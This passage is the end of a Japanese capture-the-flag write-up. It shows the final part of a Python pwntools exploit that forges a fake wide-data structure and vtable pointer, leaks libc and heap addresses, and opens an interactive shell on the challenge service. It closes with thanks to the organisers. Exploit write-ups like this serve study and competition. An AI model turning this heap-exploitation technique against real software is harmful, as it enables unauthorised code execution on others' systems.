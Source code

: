 ```python
	fake_wide_data += p64(addr_heap+off_wide_data)			# _vtable
	fake_wide_data += b'\n'
	
	wide_data_id = alloc(0x400)
	#
	conn.sendlineafter(">", "2")
	conn.sendlineafter(": ", str(wide_data_id))
	conn.sendafter(": ", fake_wide_data)
	
	conn.sendlineafter(">", "5")
	
	print("[+] addr_libc = "+hex(addr_libc))
	print("[+] addr_heap = "+hex(addr_heap))
	conn.interactive()	

if __name__ == "__main__":
	exploit()
```

## 終わりに
運営陣のみなさま、いつも良いCTFを本当にありがとうございます。

本戦参加は2年ぶりで、前回あまり本線振るわなかったので頑張りたい所存。
